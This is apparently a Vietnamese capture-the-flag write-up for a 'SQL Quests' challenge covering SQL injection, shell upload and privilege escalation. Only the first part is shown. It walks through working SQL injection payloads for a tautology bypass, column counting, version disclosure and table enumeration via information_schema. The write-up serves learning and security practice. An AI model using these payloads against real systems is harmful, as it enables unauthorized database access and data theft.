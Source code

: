 <img src="img/Screenshot from 2019-11-24 08-14-40-5.png"  />

## SQL Quests - `@30k`

Ở challenge này được chia ra 3 bài với 3 nội dung cụ thể
- SQL Quests 1: SQL Injection
- SQL Quests 2: Upload shell thông qua SQLi
- SQL Quests 3: Privilege Escalation

#### SQL Quests 1 - SQL Injection

Website cho phép tra cứu thông tin người dùng.

- `1" or "1"="1" -- -` --> Trả về toàn bộ user --> SQL injection

- `1" order by 4 -- -` --> Không lỗi

- `1" order by 5 -- -` --> Lỗi --> Câu query chứa 4 cột dữ liệu

- `1" union select null,@@version,null,null -- -` --> Kiểm tra version

- `1" union SELECT null,null,null,table_name FROM information_schema.tables  where TABLE_SCHEMA=database() -- -` --> Liệt kê các bản nằm trong database --> `csa_officers`
<img src="img/table.png">
